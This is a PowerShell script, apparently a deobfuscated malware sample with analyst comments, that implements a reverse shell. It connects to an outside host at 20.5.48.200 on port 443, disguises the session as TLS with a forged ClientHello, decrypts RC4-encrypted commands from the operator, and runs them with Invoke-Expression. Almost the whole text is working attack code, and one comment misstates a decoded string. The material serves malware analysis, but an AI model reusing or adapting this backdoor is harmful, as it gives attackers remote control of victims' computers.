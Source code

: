 ```powershell
    $ApplicationDataRecord = @(0x01) + $OverallPacketLengthBytes[1..3] + $ClientHelloPacket
    # Original: $B88B888B8BB8BBBB
    $RecordLengthBytes = [byte[]] ([BitConverter]::GetBytes([UInt16]$ApplicationDataRecord.Length))
    [Array]::Reverse($RecordLengthBytes)

    # Original: $BBB888888BB88B88
    $FinalTlsRecord = @(0x16, 0x03, 0x01) + $RecordLengthBytes + $ApplicationDataRecord
    return, $FinalTlsRecord
}


# Main execution flow (deobfuscated)
$TcpClient = New-Object System.Net.Sockets.TcpClient # Original: $BBBB8BBBBBB8B88B

# Calculate target IP/hostname and port
$TargetHost = (DecryptXorString -EncryptedIntArray @(5, 7, 25, 2, 25, 3, 15, 25, 5, 7, 7) -XorKey 55) # Original: (IIlIlIlIllIIllIl - BBBB8888BBBBB8BB @(5, 7, 25, 2, 25, 3, 15, 25, 5, 7, 7) - BB8BB8B8BBB8B8B8 55)
# Creates 20.5.48.200
$TargetPort = ((50 * 9) - (11 * 2)) + [math]::Pow(2, 3) + [math]::Sqrt(49) # Calculates to 443
$TcpClient.Connect($TargetHost, $TargetPort)

$NetworkStream = $TcpClient.GetStream() # Original: $BBBB888888B88BBB

$InitialClientHelloPacket = BuildTlsClientHello # Original: $BB88888BB8B8B8BB
$NetworkStream.Write($InitialClientHelloPacket, 0, $InitialClientHelloPacket.Length)

$InitialReadBuffer = New-Object byte[] 16384 # Original: $B8B888BB8B8888BB
$NetworkStream.Read($InitialReadBuffer, 0, $InitialReadBuffer.Length) | Out-Null # Discard initial server response (part of TLS handshake)

while ($true) {
    $CommandReadBuffer = New-Object byte[] 16384 # Original: $B8B888BB8B8888BB
    try {
        $BytesRead = $NetworkStream.Read($CommandReadBuffer, 0, 16384) # Original: $B888BBB8B8B88B8B
    } catch {
        break # Exit loop on read error (e.g., connection closed)
    }

    # Strip TLS application data header (5 bytes: 17 03 03 Length)
    $EncryptedCommandBytes = $CommandReadBuffer[5..($BytesRead - 1)] # Original: $BBBB8888BBBBB8BB

    # Decrypt the received command
    $DecryptedCommand = [System.Text.Encoding]::UTF8.GetString((RC4DecryptEncrypt -Rc4Key $Rc4EncryptionKey -InputDataBytes $EncryptedCommandBytes)) # Original: $B8B88B8BB888BBB8

    # Check for exit command (decrypted: "mpaw" - likely "exit" or similar from attacker)
    if ($DecryptedCommand -eq (DecryptXorString -EncryptedIntArray @(109, 112, 97, 124) -XorKey 8)) {
        break # Exit loop if exit command received
    }

    $CommandOutput = "" # Original: $BB88B8B8BBBB888B
    try {
        # Execute the decrypted command and capture output
        $CommandOutput = (Invoke-Expression $DecryptedCommand 2>&1) | Out-String
    } catch {
        # Handle execution error with a generic error message (decrypted: "Error")
        $CommandOutput = (DecryptXorString -EncryptedIntArray @(186, 141, 141, 144, 141) -XorKey 255)
    }

```